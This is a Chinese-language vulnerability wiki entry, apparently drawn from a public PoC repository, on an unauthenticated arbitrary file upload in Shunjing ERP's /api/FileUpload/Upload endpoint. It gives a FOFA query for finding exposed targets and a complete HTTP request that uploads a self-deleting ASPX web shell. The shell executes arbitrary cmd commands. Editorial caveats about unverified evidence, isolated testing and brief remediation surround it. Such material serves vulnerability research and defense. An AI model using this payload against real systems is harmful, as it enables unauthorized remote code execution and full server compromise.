


# 顺景ERP FileUpload/Upload上传

## 条目说明

- 对象与具体问题：顺景ERP；FileUpload/Upload上传
- 版本、配置及部署条件：无版本，ASPX映射
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 应ERP分类，FOFA截断，HTTP无代码围栏
- 落地/执行证据仅图
- 后门执行自删除，需显著副作用说明及隔离验证；在野已知未引证

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态；文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

顺景ERP Upload处接口存在任意文件上传漏洞，未经身份验证的远程攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## 影响版本

顺景ERP

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="/api/DBRecord/getDBRecords"

POC/EXP：

```http
POST /api/FileUpload/Upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/png

<%@ Page Language="Jscript" validateRequest="false" %><%var c=new System.Diagnostics.ProcessStartInfo("cmd");var e=new System.Diagnostics.Process();var out:System.IO.StreamReader,EI:System.IO.StreamReader;c.UseShellExecute=false;c.RedirectStandardOutput=true;c.RedirectStandardError=true;e.StartInfo=c;c.Arguments="/c " + Request.Item["cmd"];e.Start();out=e.StandardOutput;EI=e.StandardError;e.Close();Response.Write(out.ReadToEnd() + EI.ReadToEnd());System.IO.File.Delete(Request.PhysicalPath);Response.End();%>
------WebKitFormBoundary7yyQ5XLHOn6WZ6MT--
```








## 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
